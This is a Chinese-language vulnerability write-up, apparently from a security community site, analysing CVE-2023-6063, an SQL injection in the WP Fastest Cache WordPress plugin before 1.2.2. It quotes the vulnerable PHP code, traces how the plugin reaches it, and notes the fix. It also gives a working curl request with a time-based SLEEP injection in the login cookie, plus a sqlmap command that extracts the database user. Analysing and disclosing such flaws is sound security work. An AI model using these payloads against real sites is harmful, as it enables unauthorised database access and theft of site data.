



# CVE-2023-6063分析|WordPress WP Fastest Cache 插件导致的SQL注入 - 先知社区

CVE-2023-6063分析|WordPress WP Fastest Cache 插件导致的SQL注入

- - -

### 漏洞环境

● wordpress 版本无限制  
● WP Fastest Cache 插件 <1.2.2，这里使用1.2.1版本  
启用 WP Fastest Cache 插件，并启用“缓存系统”

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213222532-7917171a-99c3-1.png)

漏洞点  
cache.php 。调用在漏洞分析部分分析

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230000-49924762-99c8-1.png)

public function is\_user\_admin(){  
global $wpdb;

```plain
foreach ((array)$_COOKIE as $cookie_key => $cookie_value){
    if(preg_match("/wordpress_logged_in/i", $cookie_key)){
        $username = preg_replace("/^([^\|]+)\|.+/", "$1", $cookie_value);
        break;
    }
}

if(isset($username) && $username){          
    $res = $wpdb->get_var("SELECT `$wpdb->users`.`ID`, `$wpdb->users`.`user_login`, `$wpdb->usermeta`.`meta_key`, `$wpdb->usermeta`.`meta_value` 
                           FROM `$wpdb->users` 
                           INNER JOIN `$wpdb->usermeta` 
                           ON `$wpdb->users`.`user_login` = \"$username\" AND 
                           `$wpdb->usermeta`.`meta_key` LIKE \"%_user_level\" AND 
                           `$wpdb->usermeta`.`meta_value` = \"10\" AND 
                           `$wpdb->users`.`ID` = `$wpdb->usermeta`.user_id ;"
                        );

    return $res;
}

return false;
```

}

### 漏洞复现

记得改cookie 中 wordpress\_logged\_in的字符串，如wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93  
漏洞点在cookie的 wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93(会变) 参数处  
curl [https://example.com](https://example.com/) -H "Cookie: wordpress\_logged\_in=1234%22%20AND%20(SELECT%202537%20FROM%20(SELECT(SLEEP(5)))Sazm)%20AND%20%22qzts%22=%22qzts"

sqlmap 证明：  
python sqlmap.py --dbms=mysql -u "[http://your-url/wp-login.php](http://your-url/wp-login.php)" --cookie='wordpress\_logged\_in\_732bf205f063fd120b84d8a0d44e2d5d=\*' --level=2 --current-user

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230021-564dd444-99c8-1.png)

### 漏洞分析

简单说就是在加载插件时，取wordpress\_logged\_in 第一个 | 前的字符，然后插入到 SQL 语句中。  
而这样也是可以匹配的，即payload

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230031-5c24f21c-99c8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230038-609225a4-99c8-1.png)

wordpress\_logged\_in\_5bd7a9c61cda6e66fc921a05bc80ee93内容如下：  
wordpress|1702575454|gquEYSZ8lNbJktLUWLpElq4XybIhpPmOL3MmTMcqi4X|91c52c9d088ad036d8ccdc6ef645adfd906829527d27ea494140369cdbfbb1b9  
这一部分的功能就是取出wordpress

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230052-68a16188-99c8-1.png)

然后没有过滤就进入了SQL语句中

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230102-6ea23f8a-99c8-1.png)

is\_user\_admin() 被 createCache() 调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230128-7e7f2cba-99c8-1.png)

追踪 createCache()，被cache()调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230142-86752a8c-99c8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230148-8a0f8bb0-99c8-1.png)

看cache()在何处被调用，发现被构造函数调用，即在 WpFastestCache 对象被创建时调用

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230155-8e1020f8-99c8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230201-91a045cc-99c8-1.png)

这两处创建了对象，看谁包含了wpFastestCache.php，继续跟，跟到plugin.php，大概就是插件加载时调用的

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230220-9ceff04e-99c8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230225-a0258ecc-99c8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230230-a3498df6-99c8-1.png)

### 漏洞修复

WP Fastest Cache 插件 1.2.2，修复了此漏洞

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230239-a8b4fe2e-99c8-1.png)

对参数进行了过滤

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230250-af523814-99c8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231213230257-b3177f86-99c8-1.png)
